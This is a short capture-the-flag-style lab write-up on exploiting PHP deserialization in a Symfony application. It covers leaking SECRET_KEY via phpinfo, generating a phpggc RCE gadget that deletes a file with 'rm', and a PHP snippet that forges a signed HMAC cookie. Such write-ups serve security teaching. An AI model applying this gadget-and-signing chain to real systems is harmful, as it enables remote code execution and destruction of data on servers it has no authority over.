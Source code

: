 # Exploiting PHP deserialization with a pre-built gadget chain

In this lab, we have to do some recon and use a tool called phpgcc, equivalent of ysoserial 
for PHP. 

1. Login and get correct json token
```
{"token":"Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOj<REDACTED>9mN21jcyI7fQ==",
"sig_hmac_sha1":"e1d2833f11f19e056483216132085e790abfff91"}
```

2. Provoke error and get symphony version
Change the hmac_sha1 to get an error on the backend -> Recon Symfony v4.3.6

3. Visit "/cgi-bin/phpinfo.php" and get critical info
We can visit phpinfo, and there is an ENV variable called SECRET_KEY, save it.

4. Create gadget
With the following command we can create the RCE gadget
```
phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64
```

5. Sign the base64 gadget with the secret key
```
<?php
$object = "base64 gadget";
$secretKey = "env-secret-key";
$cookie = urlencode('{"token":"' . $object . '","sig_hmac_sha1":"' . hash_hmac('sha1', $object, $secretKey) . '"}');
echo $cookie;
```
6. Win!!
